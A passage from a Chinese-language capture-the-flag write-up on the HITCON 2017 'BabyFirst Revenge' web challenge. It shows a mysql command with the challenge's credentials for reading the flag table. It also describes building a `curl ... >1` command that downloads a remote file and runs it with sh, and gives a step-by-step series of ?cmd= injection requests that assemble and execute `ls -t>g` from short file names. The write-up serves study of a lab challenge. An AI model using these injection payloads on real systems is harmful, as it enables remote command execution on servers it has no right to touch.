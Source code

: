 ```
mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e 'use fl4gdb;select * from this_is_the
_fl4g;'
```



![baby2](https://momomoxiaoxi.com/img/post/hitcon/baby2.png)

#### 其他解法

1. [Orange官方解答](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py)
2. [Chybeta的解答](https://chybeta.github.io/2017/11/04/HITCON-CTF-2017-BabyFirst-Revenge-writeup/)
3. [王一航的解答](http://www.jianshu.com/p/82788b6949c7)
4. [https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/](https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/)

这里总结一下，我们的解法是通过构造一个符合字典序的`curl xxx.xx>1`来从外部下载一个文件，并sh执行它。这里的域名需要特殊构造，使其符合字典序。

而Orange的思路用到了一个追加的方式，即\>\>指令。在http://wonderkun.cc/index.html/?p=524这篇文章中，讲到利用`ls -t>a`来防止指令乱序的问题。但当长度为5个字节时，`ls -t>a`指令就无法输入了。而且若分为多个文件指令拼接的时候，我们每次只能输入3个字符。（因为\>和\\需要占去两个字符，另外若要输入一些特殊符号，还会额外占用一个转义符号。）此时，单纯利用\>是无法解决字典序问题的，因为空格和\-\>的ascii码太靠前了。但是，如果使用追加功能的话是可以完成的，我们可以先写入ls，再追加` -t>a`。

这里还有一个特性，就是bash会忽略执行过程中遇到的一行错误。

具体如下：

```bash
http://10.211.55.17/?cmd=>ls\
http://10.211.55.17/?cmd=ls>_
此时，_文件内容为
➜  1924cf16182a5279a02c5ffb573daaa4 cat _
_
ls\
再访问
http://10.211.55.17/?cmd=>\ \
http://10.211.55.17/?cmd=>-t\
http://10.211.55.17/?cmd=>\>g
http://10.211.55.17/?cmd=ls>>_(追加文件)
此时，_文件内容
➜  1924cf16182a5279a02c5ffb573daaa4 ls
 \  _  >g  ls\  -t\
➜  1924cf16182a5279a02c5ffb573daaa4 cat _
_
ls\
 \
-t\
>g
_
ls\
如果，我们执行_，可以发现ls -t>g指令会执行，虽然第1、6行会报错。
➜  1924cf16182a5279a02c5ffb573daaa4 sh _
_: 1: _: _: not found
_: 6: _: _: not found
 \  _  g  >g  ls\  -t\
 g文件内容以生成时间逆序写入
 ➜  1924cf16182a5279a02c5ffb573daaa4 cat g
g
_
>g
-t\
 \
ls\
```
